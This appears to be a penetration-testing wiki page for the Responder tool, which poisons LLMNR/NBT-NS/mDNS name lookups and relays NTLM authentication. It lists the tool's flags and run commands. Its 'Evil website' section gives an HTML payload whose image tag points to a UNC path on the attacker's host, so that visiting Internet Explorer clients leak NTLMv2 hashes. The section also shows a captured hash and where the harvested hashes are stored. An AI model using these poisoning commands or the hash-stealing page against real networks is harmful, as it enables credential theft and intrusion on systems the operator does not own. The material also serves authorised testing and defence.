 ```yaml
---
title : "Responder"
# pre : ' '
description : "LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."
date : 2020-03-11T15:08:07+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Responder

LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

## Installation

```plain
git clone https://github.com/lgandx/Responder.git
```

## Usage

Disable UFW before using.

```plain
python3 Responder.py -I eth0 -w -r -f
```

## Flags

```plain
Usage: python ./Responder.py -I eth0 -w -r -f
or:
python ./Responder.py -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

## Examples

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="responder.mp4"/%}}

#### Analyse mode

```plain
sudo ./Responder.py -I <interface> -A -v
```

#### Full mode

```plain
sudo ./Responder.py -I <interface> -w -F --lm -v
```

### Evil website

Works on:

* Internet Explorer 8 (8.0.7600.16385, Windows 7)
* Internet Explorer 8 (8.0.7601.17514, Windows Server 2008R2)
* Internet Explorer 11 (11.719.18362.0, Windows 10)
* Internet Explorer 11 (11.2273.14393.0, Windows Server 2016)
* Internet Explorer 11 (11.1098.17763.0, Windows Server 2019)

Does not work on:

* Microsoft Edge (44.18362.449.0 Windows 10)
* Google Chrome (80.0.3987.149, Windows 10)
* Brave (1.5.115, Windows 10)
* Opera (67.0.3575.115, Windows 10)

#### Index.html content

```plain
cat index.html

<html>
<head></head>
<body>
<img src="\\10.10.10.37\picture.jpg" alt=""></img>
</body>
</html>
```

#### Host the site

```plain
python3 -m http.server 80
```

#### Start responder to catch hashes

```plain
responder -I eth0 -A -f -v
[...]
[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.10.37]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[!] Error starting TCP server on port 80, check permissions or other servers running.
[+] Listening for events...
```

#### Client browsed to site

![Example](images/example.png)

#### Hashes aquired

```plain
[SMB] NTLMv2-SSP Client   : 10.10.10.15
[SMB] NTLMv2-SSP Username : WS7-2\User
[SMB] NTLMv2-SSP Hash     : User::WS7-2:2f5d1007fc42a38e:74DF5D8A06BF0059BCCA1AB300782DED:0101000000000000C0653150DE09D2012E16D14827C3AF5500[...]
```

#### Find captured hashes

Folder /logs in the responder folder

```plain
 ~/tools/responder/logs
$ ll
total 22M
-rw-r--r-- 1 root root    0 Jun 19 09:09 Analyzer-Session.log
-rw-r--r-- 1 root root 226K Nov 25 08:55 Config-Responder.log
-rw-r--r-- 1 root root 2.3K Jul  7 10:23 HTTP-NTLMv2-10.0.0.30.txt
-rw-r--r-- 1 root root 1.2K Jul  7 09:06 HTTP-NTLMv2-10.0.0.35.txt
-rw-r--r-- 1 root root 1.2K Oct 26 11:17 HTTP-NTLMv2-10.1.25.122.txt

```

## URL List

* [GitHub.com - Responder](https://github.com/lgandx/Responder)
* [Original DEPRECATED GitHub](https://github.com/SpiderLabs/Responder)
